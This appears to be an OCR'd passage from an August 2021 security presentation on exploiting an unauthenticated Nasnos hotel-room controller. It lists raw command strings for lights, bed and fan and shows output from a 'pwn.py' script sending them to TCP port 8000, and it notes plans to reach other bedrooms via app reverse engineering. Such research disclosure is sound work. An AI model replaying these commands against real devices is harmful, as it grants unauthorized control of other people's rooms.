 Exploitation

 Traffic analysis
 Press every button and observe the traffic  Packets are sent to the Nasnos router on TCP port 8000  No authentication, no encryption  We are now able to control our bedroom from our laptop :)

Action Light (more) Light (less) Light on Light off Bed (up) Bed (down) Fan on Fan off

Init @LC0UO000 @LC0DO000 @LC0AB100 @LC0AB000 @LC2UO000 @LC2DO000 @LC1UP000 @LC1DW000

Long press @LC0UC000 @LC0DC000
@LC2UC000 @LC2DC000 -

End @LC0UR000 @LC0DR000
@LC2UR000 @LC2DR000 -

August 2021

25

Exploitation

$ python pwn.py ['light_on', 'light_off', 'bed_down', 'bed_up', 'fan_off', 'fan_on']

$ python pwn.py bed_up

## using payload bed_up ## sent to 192.168.2.1:8000 (18 bytes): 0000 40 4c 43 32 55 4f 30 30 30 40 4c 43 32 55 43 30 0010 30 30 ## sent to 192.168.2.1:8000 (18 bytes): 0000 40 4c 43 32 55 4f 30 30 30 40 4c 43 32 55 43 30 0010 30 30 ## sent to 192.168.2.1:8000 (18 bytes): 0000 40 4c 43 32 55 4f 30 30 30 40 4c 43 32 55 43 30 0010 30 30 ## sent to 192.168.2.1:8000 (18 bytes): 0000 40 4c 43 32 55 4f 30 30 30 40 4c 43 32 55 43 30 0010 30 30 ## sent to 192.168.2.1:8000 (18 bytes): 0000 40 4c 43 32 55 4f 30 30 30 40 4c 43 32 55 43 30 0010 30 30

@LC2UO000@LC2UC0 00
@LC2UO000@LC2UC0 00
@LC2UO000@LC2UC0 00
@LC2UO000@LC2UC0 00
@LC2UO000@LC2UC0 00

Fig.: Sending commands and transforming our bed into a sofa

August 2021

26

Exploitation
 What about the other bedrooms?
 We do not know if the key is generated or set manually  A Nasnos application is available on Google Play Store:
-- Possible to setup the Nasnos Wi-Fi directly from this app -- Reverse engineering

Fig.: The Nasnos Android application

August 2021
